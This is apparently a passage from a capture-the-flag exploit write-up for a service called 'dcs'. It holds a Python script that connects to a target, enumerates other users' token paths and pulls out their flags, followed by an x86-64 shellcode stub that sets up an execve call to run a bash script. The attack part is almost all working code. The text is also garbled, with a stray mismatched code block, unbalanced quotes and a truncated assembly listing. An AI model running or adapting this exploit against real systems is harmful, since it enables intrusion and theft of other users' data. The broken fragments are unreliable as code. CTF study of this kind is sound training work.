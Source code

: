 ```python
_0021 = 1.41894014867253636496431508459e+161;
_0022 = 3.08856759534166243916303683284e-308;
_0023 = 6.17713519068332487832607366568e-308;
_0024 = 1.08805855771401084070533089734e-306;
_0025 = 9.5729280743176072948036481258e-308;

fun main() {
    if (_001a < _0025) {
        return _0023;
    }
}
'''

PORT = 7654
HOSTNAME = sys.argv[1]
FLAG_ID = sys.argv[2]


def sha256(s: str) -> str:
    return hashlib.sha256(s.encode('utf-8')).hexdigest()


if __name__ == '__main__':
    with api.DCSClient(HOSTNAME, PORT) as c:
        r = c.create(code, 'PWNED')
        assert(r.error == '')

        r = c.get()
        assert(r.error == '')

        r = c.get('ructfructfructfructfructfructfru')
        assert(r.error == '')

        paths = r.description
        def get_token_from_path(p):
            l = p.split('/')
            if len(l) < 2:
                return ''
            return l[-2] + l[-1]
        victim_tokens = list(map(get_token_from_path, paths.split('\n')))

        for t in victim_tokens:
            if sha256(t) == FLAG_ID:
                r = c.get(t)
                assert(r.error == '')
                print(r.description)
```

[sploit asm code](/sploits/dcs/shell.S) just run `execve` with bash script from above:
```
.section .text
.globl _start

_start:
    xor     %rdx, %rdx
    leaq    arg2(%rip), %rsi
    pushq   %rsi
    leaq    arg1(%rip), %rsi
    pushq   %rsi
    leaq    cmd(%rip), %rsi
    pushq   %rsi
    movq    %rsp, %rsi
    leaq    cmd(%rip), %rdi
    movq    $59, %rax
```